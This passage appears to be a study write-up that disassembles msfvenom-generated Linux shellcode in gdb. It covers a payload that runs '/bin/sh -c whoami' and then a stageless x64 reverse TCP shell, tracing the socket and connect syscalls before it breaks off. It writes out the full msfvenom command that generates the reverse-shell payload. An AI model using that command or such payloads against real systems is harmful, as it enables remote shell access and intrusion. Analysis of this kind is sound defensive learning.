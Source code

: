 
let's explore 0x40009f:

    gef➤  x/20i 0x40009f
    ; the call moves RIP here. we see that something from rsi is pushed, rsi
    ; was -c. also rdi is pushed, and we know that rdi was a pointer to
    ; /bin/sh
    0x40009f:    push   rsi
    0x4000a0:    push   rdi
    ; then, a pointer to the command is placed at rsi that holds arguments
    0x4000a1:    mov    rsi,rsp
    ; we expect that /bin/sh -c is runt here, because we don't see anything
    ; else, so i'm running gdb step by step and i actually see that the
    ; stack starts with a string at the first push rsi. skip this analysis
    ; and move
    0x4000a4:    syscall

here is the stack when RIP is at 0x40009f:

> 0x00007fffffffe420│+0x0000: 0x0000000000400098  →  0x5600696d616f6877 ("whoami"?)        ← $rsp
> 0x00007fffffffe428│+0x0008: 0x0000000000000000
> 0x00007fffffffe430│+0x0010: 0x000000000000632d ("-c"?)   ← $rsi
> 0x00007fffffffe438│+0x0018: 0x0068732f6e69622f ("/bin/sh"?)      ← $rdi

and at 0x4000a1 (mov rsi,rsp):

> 0x00007fffffffe410│+0x0000: 0x00007fffffffe438  →  0x0068732f6e69622f ("/bin/sh"?)       ← $rsp
> 0x00007fffffffe418│+0x0008: 0x00007fffffffe430  →  0x000000000000632d ("-c"?)
> 0x00007fffffffe420│+0x0010: 0x0000000000400098  →  0x5600696d616f6877 ("whoami"?)
> 0x00007fffffffe428│+0x0018: 0x0000000000000000

we clearly see that the code executes /bin/sh -c whoami

reverse stageless
=================
payload generated with: msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1234 -f elf > 05-reversetcp_stageless  
journey starts with a:

    gdb ./05-reversetcp_stageless
    starti

reading the first 8 instructions, i see that the sys_socket syscall is created with an AF_INET STREAM (tcp).

    →   0x400078                  push   0x29
        0x40007a                  pop    rax
        0x40007b                  cdq
        0x40007c                  push   0x2
        0x40007e                  pop    rdi
        0x40007f                  push   0x1
        0x400081                  pop    rsi
        0x400082                  syscall

should be safe to run until 0x400082, so i just b *0x400082 and c

    just after the syscall, we can see another one is prepared:
    ; everything starts by saving rax to rdi, for socket syscall rax will
    ; hold socket file descriptor that is needed to interact with socket
    ; itself
    0x400084:    xchg   rdi,rax
    ; lot of nulls here, a basic "hex2ip" gives a 127.0.0.1 in little endian
    ; just the first 4 bytes are considered here of course for the ip, let's
    ; go down to see what could be that 0x2040002
    ; at 0x400097 i see that 0x2a is the syscallid, that is sys_connect.
    ; i therefore expect rdi as socketfd, rsi as sockaddr struct, and rdx as
    ; addrlen
    ; given that this hex will go to rsi, i can guess that it's the struct.
    ; so: last 0002 will be family, and remaining bytes (d204) the port in